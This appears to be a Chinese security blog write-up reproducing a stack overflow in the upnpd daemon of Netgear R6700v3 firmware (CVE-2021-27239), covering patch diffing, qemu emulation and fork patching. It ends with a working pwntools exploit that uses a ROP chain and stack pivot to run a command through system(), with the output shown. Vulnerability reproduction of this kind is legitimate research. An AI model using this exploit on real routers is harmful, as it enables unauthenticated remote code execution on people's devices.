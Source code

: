 ```yaml
---
title: Netgear PSV-2020-0432 / CVE-2021-27239 漏洞复现 
categories:
- IOT
tags: 
---
```


> 漏洞位于/usr/sbin/upnpd，是在ssdp（UDP 1900）协议的解析过程中，对MX字段的strncpy引发的栈溢出。由于是字符串拷贝，最终的利用方法仍然与 PSV-2020-0211 一致，采取栈迁移的方法规避空字符截断。具体来说就是先把带00的ROP链打上栈，然后再触发栈溢出，用 **ADD SP, SP, #0x800; POP {R4-R6,PC}** 这种gadget完成栈迁移并将控制流打到ROP上。

## 漏洞定位

根据漏洞通告，可见此洞影响的版本众多：

> 注：PSV 是 Netgear 自己家的漏洞编号体系

- [PSV-2020-0432](https://kb.netgear.com/000062820/Security-Advisory-for-Stack-based-Buffer-Overflow-Remote-Code-Execution-Vulnerability-on-Some-Routers-PSV-2020-0432)
- [CVE-2021-27239](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-27239)

以R6700v3为例，其中说明：R6700v3 running firmware versions prior to 1.0.4.102，故找到如下版本，对 **/usr/sbin/upnpd** 分析

- [R6700v3 Firmware Version 1.0.4.102](https://kb.netgear.com/000062417/R6700v3-Firmware-Version-1-0-4-102)
- [R6700v3 Firmware Version 1.0.4.120](https://kb.netgear.com/000064030/R6700v3-Firmware-Version-1-0-4-120)

binwalk解包固件，底座为 **arm32:linux:uclibc**，对目标程序 **/usr/sbin/upnpd** 搜索MX字符串，容易找到：

![image](https://xuanxuanblingbling.github.io/assets/pic/netgear/diff.png)

都不用bindiff，很明显能看到新版本在strncpy前添加了长度检查，那肯定就是这个栈溢出了。多说一句，就是这个漏洞的发生的本质是：strncpy拷贝的长度，错误的取决于输入，正确的应该是取决于拷贝目标。

## 历史漏洞

关于Netgear的upnpd可以RCE的历史漏洞，主要有两个：[PSV-2020-0211](https://kb.netgear.com/000062158/Security-Advisory-for-Pre-Authentication-Command-Injection-on-R8300-PSV-2020-0211), [PSV-2019-0296](https://kb.netgear.com/000061982/Security-Advisory-for-Multiple-Vulnerabilities-on-Some-Routers-Mobile-Routers-Modems-Gateways-and-Extenders)

### PSV-2020-0211

> 目标：upnpd UDP 1900

原始作者：

- [SSD Advisory – Netgear Nighthawk R8300 upnpd PreAuth RCE](https://ssd-disclosure.com/ssd-advisory-netgear-nighthawk-r8300-upnpd-preauth-rce/)

对于此洞的复现比较多，可以找到以下完整的复现和利用过程：

- [PSV-2020-0211:Netgear R8300 UPnP栈溢出漏洞分析](https://cq674350529.github.io/2020/09/16/PSV-2020-0211-Netgear-R8300-UPnP%E6%A0%88%E6%BA%A2%E5%87%BA%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
- [Netgear Nighthawk R8300 upnpd PreAuth RCE 分析与复现](https://paper.seebug.org/1311/)
- [Netgear R8300 PSV-2020-0211栈溢出复现](https://p1kk.github.io/2020/12/20/iot/Netgear%20R8300/)

显然PSV-2020-0432与PSV-2020-0211类似，故最后的交互为UDP 1900端口的ssdp报文。

### PSV-2019-0296

> 目标：upnpd TCP 5000

2019 pwn2own tokyo的比赛项目，原始作者为Pedro Ribeiro和Radek Domanski：

- [(0Day) (Pwn2Own) NETGEAR R6700 UPnP SOAPAction Authentication Bypass Vulnerability](https://www.zerodayinitiative.com/advisories/ZDI-20-703/)
- [(0Day) (Pwn2Own) NETGEAR R6700 UPnP NewBlockSiteName Stack-based Buffer Overflow Remote Code Execution Vulnerability](https://www.zerodayinitiative.com/advisories/ZDI-20-704/)
- [tokyo_drift](https://github.com/pedrib/PoC/blob/da317bbb22abc2c88c8fcad0668cdb94b2ba0a6f/advisories/Pwn2Own/Tokyo_2019/tokyo_drift/tokyo_drift.md)

对于此洞的复现：

- [Pwn2Own Netgear R6700 UPnP漏洞分析](https://cq674350529.github.io/2020/07/04/Pwn2Own-Netgear-R6700-UPnP%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)

## 模拟运行

看起来路由器的原生系统也没有直接开放可以getshell的接口，并且之前很多文章都可以成功模拟运行upnpd，所以也尝试模拟运行，坑点仍然在nvram的hook上，主要是两点：

1. 编译的libnvram.so时需要用uclibc的交叉编译工具链，否则可能无法找到函数符号
2. 虚假的nvram的表项需要添加一大堆，并且IP地址配置要和本地一致，才能正常运行

对于nvram有

- [libnvram](https://github.com/firmadyne/libnvram/)
- [custom_nvram](https://github.com/therealsaumil/custom_nvram)


适配libnvram：

```python

```

```python
$ cp ./libnvram.so ./lib/libnvram.so
$ cp `which qemu-arm-static` ./
$ mkdir -p ./tmp/var/run
$ mkdir -p ./firmadyne/libnvram
$ mkdir -p ./firmadyne/libnvram.override
$ sudo chroot . ./qemu-arm-static  ./usr/sbin/upnpd
```

```python
$ sudo netstat -pantu | grep qemu
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      54012/./qemu-arm-st 
udp        0      0 0.0.0.0:1900            0.0.0.0:*                           54012/./qemu-arm-st 
udp        0      0 0.0.0.0:39991           0.0.0.0:*                           54012/./qemu-arm-st 
$ ps -ef | grep qemu
root       54012    1465  0 13:52 ?        00:00:00 ./qemu-arm-static ./usr/sbin/upnpd
xuanxuan   54046   46552  0 13:54 pts/3    00:00:00 grep --color=auto qemu
```

## 修复调试

另外运行起来后，发现进程号会变，也就是程序会fork，qemu-user无法调试，又没看到upnpd直接在哪fork了，所以直接patch其libc中的fork，让其直接return 0：

> 后经同伴提醒，daemon()会fork()

```c
.text:00015ABC             fork                                    ; CODE XREF: j_fork+8↑j
.text:00015ABC                                                     ; DATA XREF: LOAD:00008D74↑o ...
.text:00015ABC 00 00 A0 E3                 MOV             R0, #0  ;
.text:00015AC0 3E FF 2F E1                 BLX             LR
```

如果是patch fork的调用过程则一般直接清空r0寄存器即可：

```c
call fork -> mov r0,0
```

本质都是让父进程完成子进程的工作，直接给出patch好的 [libc.so.0](https://xuanxuanblingbling.github.io/assets/attachment/netgear/libc.so.0)


## 漏洞利用

测试过长的MX的确就控制流劫持了：

```python
from pwn import *

io = remote("127.0.0.1",1900,typ='udp')

payload  = b'M-SEARCH * HTTP/1.1 \r\n'
payload += b'Man: "ssdp:discover" \r\n'
payload += b'MX: %s \r\n' % (b'a'*200)

io.send(payload)
```

虽然qemu-user可以无视NX以及随机化，投机取巧打shellcode，但仔细分析后发现还是有正经的方法打真实的利用：

```python
from pwn import *

io = remote("127.0.0.1",1900,typ='udp')

payload  = b'xuan'*200
io.send(payload)

payload  = b'M-SEARCH * HTTP/1.1 \r\n'
payload += b'Man: "ssdp:discover" \r\n'
payload += b'MX: %s \r\n' % (b'a'*200)
io.send(payload)
```





```c
.text:00013908                 ADD             SP, SP, #0x800
.text:0001390C                 POP             {R4-R6,PC}
```

```c
.text:0000BB44                 MOV             R0, R4  ; dest
.text:0000BB48                 MOV             R1, SP  ; src
.text:0000BB4C                 BL              strcpy
.text:0000BB50                 ADD             SP, SP, #0x400
.text:0000BB54                 POP             {R4-R6,PC}
```

```c
.plt:0000AE64 ; int system(const char *command)
```

最终exp如下，只打一个ls，反弹shell的懒得弄了：

```python
from pwn import *

io = remote("127.0.0.1",1900,typ='udp')

cmd = b'ls'

# throw rop chain to stack first
rop_chain  = p32(0x970A0)
rop_chain += p32(1) * 2
rop_chain += p32(0xBB44)
rop_chain += cmd.ljust(0x400,b"\x00")
rop_chain += p32(1) * 3
rop_chain += p32(0xAE64)
io.send(b'a'*356 + rop_chain)

sleep(0.1)

# trigger stack buffer overflow to rop chain
payload  = b'M-SEARCH * HTTP/1.1 \r\n'
payload += b'Man: "ssdp:discover" \r\n'
payload += b'MX: '
payload += b'a'*139
payload += p32(0x13908)[:-1]
payload += b'\r\n'
io.send(payload)
```

```python
nvram_match: true
ssdp_http_method_check(204):
ssdp_discovery_msearch(1008):
MX Empty , not integer or negative!!
bin              lib              qemu-arm-static  usr
data             media            sbin             var
dev              mnt              share            www
etc              opt              sys
firmadyne        proc             tmp
qemu: uncaught target signal 11 (Segmentation fault) - core dumped
```

## 总结鸣谢

复现这个洞的技术点没有什么新颖的，都是IoT老生常谈的东西：

- hook nvram
- patch fork
- bypass null byte 

最后感谢[cq674350529](https://cq674350529.github.io/)师傅提供的大部分资料：

- PSV-2019-0076：[NETGEAR PSV-2019-0076: 从漏洞公告到PoC](https://cq674350529.github.io/2020/10/01/NETGEAR-PSV-2019-0076-%E4%BB%8E%E6%BC%8F%E6%B4%9E%E5%85%AC%E5%91%8A%E5%88%B0PoC/)
- PSV-2019-0296：[Pwn2Own Netgear R6700 UPnP漏洞分析](https://cq674350529.github.io/2020/07/04/Pwn2Own-Netgear-R6700-UPnP%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
- PSV-2020-0118：[Netgear R6400v2 堆溢出漏洞分析与利用](https://cq674350529.github.io/2021/03/19/Netgear-R6400v2-%E5%A0%86%E6%BA%A2%E5%87%BA%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E4%B8%8E%E5%88%A9%E7%94%A8/)
- PSV-2020-0211：[PSV-2020-0211:Netgear R8300 UPnP栈溢出漏洞分析](https://cq674350529.github.io/2020/09/16/)
